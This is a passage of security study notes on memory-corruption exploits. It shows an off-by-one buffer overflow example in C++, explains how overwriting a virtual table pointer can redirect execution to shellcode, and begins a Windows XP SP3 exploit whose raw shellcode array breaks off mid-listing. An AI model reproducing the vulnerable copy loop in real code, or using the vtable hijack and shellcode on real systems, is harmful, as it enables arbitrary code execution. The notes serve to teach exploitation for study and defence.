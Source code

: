 ### Exploits

> Code snippet

```CPP
void off_by_one(char * input)
{
  char buf[200];
  int i = 0, len = 0;

  len = sizeof(buf);

  for(i = 0; input[i]&&(i <= len); i++)
  {
    buf[i] = input[i];
  }
}
```

- This function tries to prevent array overruns during string copying, but the loop `i <= len` goes wrong in the boundary control and may overflow by one byte
- We can control EBP in the range of 255 bytes and possibly some important parameters of the program

## Attacking C++ virtual functions

### Theory

- A member function of a C++ class is a virtual function if it is modified with the virtual keyword when it is declared
- A class may consist of many virtual functions
- The entry address of the virtual function is stored in the virtual table (Vtable).
- When an object uses a virtual function, it first finds the virtual table by using the virtual table pointer, and then takes the final function entry address from the virtual table to call it
- The pointer to the virtual table is stored in the object's memory space, followed by other member variables
- Dummy functions can only be called dynamically by reference to an object pointer

### Try

- When a member variable in an object overflows, there is an opportunity to modify the virtual table pointer in the object or modify the virtual function pointer in the virtual table
- This makes it possible to execute shellcode

> code attempts

```CPP
/*
Test on Windows XP SP3 without any other patch.
*/

#include "windows.h"
#include "iostream.h"

char shellcode[]=
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C"
"\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B"
"\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95"
"\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59"
"\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A"
"\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75"
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
```